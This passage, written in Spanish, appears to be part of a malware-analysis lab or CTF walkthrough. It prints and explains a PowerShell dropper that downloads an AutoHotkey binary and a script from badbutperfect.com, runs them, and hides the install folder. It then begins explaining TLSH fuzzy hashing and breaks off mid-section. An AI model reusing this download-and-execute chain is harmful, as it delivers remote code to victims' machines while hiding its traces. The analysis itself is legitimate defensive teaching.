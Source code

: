 ```powershell
ni 'C:/rimz' -Type Directory -Force;
cd 'C:/rimz';
Invoke-WebRequest -Uri "http://badbutperfect.com/test2" -OutFile 'AutoHotkey.exe';
Invoke-WebRequest -Uri "http://badbutperfect.com/jvtobaqj" -OutFile 'script.ahk';
Invoke-WebRequest -Uri "http://badbutperfect.com/ozkpfzju" -OutFile 'test.txt';
start 'AutoHotkey.exe' -a 'script.ahk';
attrib +h 'C:/rimz'
```

1. **`ni`** es un alias en PowerShell para `New-Item`.  
   👉 Crea el directorio `C:/rimz`.

2. **Cambia de directorio** a esa carpeta.

3. **Descarga tres archivos** desde `badbutperfect.com`:
   - `AutoHotkey.exe` → ¡Este es el binario que probablemente están buscando!
   - `script.ahk` → Un script para AutoHotkey.
   - `test.txt` → Tal vez datos o instrucciones.

4. **Ejecuta `AutoHotkey.exe`** pasando el script como argumento:
   ```powershell
   start 'AutoHotkey.exe' -a 'script.ahk'
   ```

Y el fichero al que se le asignó el nombre de `script.ahk` es precisamente el de la pregunta anterior. 

---
**task 7**

¿Cuál es el TLSH del malware?

**TLSH (Trend Micro Locality Sensitive Hash)** es un tipo de *hash fuzzy* (hash borroso), diseñado no para identificar archivos exactamente iguales como SHA256 o MD5, sino para detectar archivos **similares**.

- **MD5/SHA256**: Cambia 1 byte y el hash es completamente diferente.
- **TLSH**: Cambia 1 byte y el hash cambia un poco, lo que permite comparar “qué tan parecidos” son dos archivos.

Muy útil en análisis de malware cuando los atacantes cambian un par de bytes para evadir detección, pero el core sigue igual.

###  Hashes tradicionales (MD5, SHA1, SHA256)

- **Detectan archivos exactamente iguales.**
- Cambias 1 byte y el hash cambia completamente.

```plaintext
Archivo original → MD5: abc123...
Archivo con 1 cambio → MD5: 9f8e7d...
```

No hay forma de saber si esos archivos son parecidos o completamente diferentes.


### TLSH (Locality Sensitive Hash)
